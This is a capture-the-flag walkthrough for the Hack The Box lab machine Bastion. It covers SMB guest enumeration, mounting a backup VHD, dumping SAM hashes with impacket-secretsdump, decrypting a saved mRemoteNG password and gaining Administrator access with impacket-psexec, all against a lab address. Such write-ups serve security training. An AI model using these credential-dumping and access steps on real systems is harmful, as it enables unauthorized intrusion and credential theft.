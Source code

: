 # Bastion Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastion 10.10.10.134``

22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)

135/tcp open  msrpc        Microsoft Windows RPC

445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds                                                                            

# ${{\color{purple}Initial Foothold}}\ $  

### smb discovery of a backups repository **:white_check_mark:**

``smbclient -U 'guest%' -L //10.10.10.134``

``smbclient -U 'guest%' //10.10.10.134/Backups``

``mkdir /mnt/smb``

### As a first step I mounted the backups folder of the smb share

``mount -t cifs //10.10.10.134/Backups /mnt/smb``

### In a second time I mounted the .vhd file which is a virtual disk
### To mount a .vhd file on linux it's possible to use guestmount :

``apt install guestmount``

``mkdir /mnt/vhd``

``guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd``

### It can take time if the vhd file is big !

``cd /Windows/System32/config``

``cp SAM SYSTEM /home/kali/Documents/htb/bastion``

![bastion2](https://user-images.githubusercontent.com/123066149/218385163-14ed7ce6-ac30-4d45-acaf-929e8253b7a8.PNG)


``/usr/bin/impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM local``

![bastion1](https://user-images.githubusercontent.com/123066149/218384858-42bb0c03-16c4-4561-aca4-1d63c05ee822.PNG)

### After having found the hash of the users with secretsdump it is possible to connect on the machine with the user L4mpje


# ${{\color{purple}Exploitation}}\ $

# ${{\color{purple}Privilege Escalation}}\ $

### There is an uncommon tool that is mRmoteNG in  C:\Program Files\mRemoteNG
> google mremoteng extract password

``git clone https://github.com/haseebT/mRemoteNG-Decrypt``

### Retrieve the config file :

``dir \a``  ### To find hidden files

``C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml``

python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

![image](https://user-images.githubusercontent.com/123066149/218386180-fbcfe581-776c-4815-b696-9bab0c1dedd0.png)

### It is possible to use this password to make a ssh in administrator on the box or use psexec

``/usr/bin/impacket-psexec Administrator@10.10.10.134``

![image](https://user-images.githubusercontent.com/123066149/218386923-00d9227d-f7ab-41f8-a12e-efc91fe1a06b.png)

# ${{\color{purple}Points of Improvement}}\ $


- Look at the dates in the files on windows
